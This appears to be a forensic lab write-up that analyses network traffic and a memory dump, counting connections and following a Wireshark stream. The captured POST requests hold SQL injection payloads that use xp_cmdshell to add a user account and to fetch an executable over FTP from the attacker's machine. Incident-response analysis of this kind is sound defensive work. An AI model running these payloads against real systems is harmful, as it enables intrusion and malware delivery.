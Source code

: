 Knowing this I was able to count how many connections were of these lengths. some have a lot of connections, but
 mostof the connections were one offs.  
 below I cut off all the Ip addresses that hadless than 2 connections to our host machine. if it turns out that our
  attacker used a diffeent IP I may include them later. 
 
    $ cat 1stcut.txt | grep 192.168.248.198 | head -n 100 |  awk '{A[$2]++}END{for(i in A)print i,A[i]}' | sort -rnk 2
        23.213.133.49 26
        23.213.133.58 15
        192.184.69.215 4
        192.184.69.154 4
        192.168.248.198 4
        192.168.248.2 3
        172.217.9.130 3
        69.20.107.85 2
        34.233.70.197 2
        23.72.48.160 2
        199.232.5.140 2
        192.229.173.16 2
        172.217.9.138 2
        172.217.1.144 2
        157.240.18.35 2
        157.240.18.19 2
        104.67.78.56 2
        
Overall It was hard for me to find a database dump of a significant size. Now is not the time to answer the question
 as to why, but I will come back to that question. 
 
I moved over into wireshark to get potential Indicators of Compromise (IoC) and I found a Post request to /sql/login
.asp. I know ASP.NET makes it pretty easy to not make a sql injection vulnerability, but sometimes weird practices
 make for some forgetting of how to properly implement prepared statements in each and every POST request. 
 
I followed the stream.
The connection is requested by 192.168.248.200 to 192.168.248.198(this is the computer we have a memdump for)
    
    .200-   POST /sql/login.asp
        HTML Form URL Encoded: application/x-www-form-urlencoded
            Form item: "username" = "';exec master..xp_cmdshell "net user keatronevans P@ssw0rd$$$ /aDD "; --"
            Form item: "password" = ""
            Form item: "B1" = "Submit"
    
    .198-   302 object moved
    
    .200-   GET /sql/badlogon.asp HTTP/1.1
    .198-   200 OK
    
    .200-   POST /sql/login.asp     #PACKET:17860   time: 23:21:20.348163   downloaded malicous code ftp protocol
            HTML Form URL Encoded: application/x-www-form-urlencoded:
                Form item: "username" = "';exec master..xp_cmdshell "ftp -i 192.168.248.200 get keatron.exe "; --"
                Form item: "password" = ""
                Form item: "B1" = "Submit"
    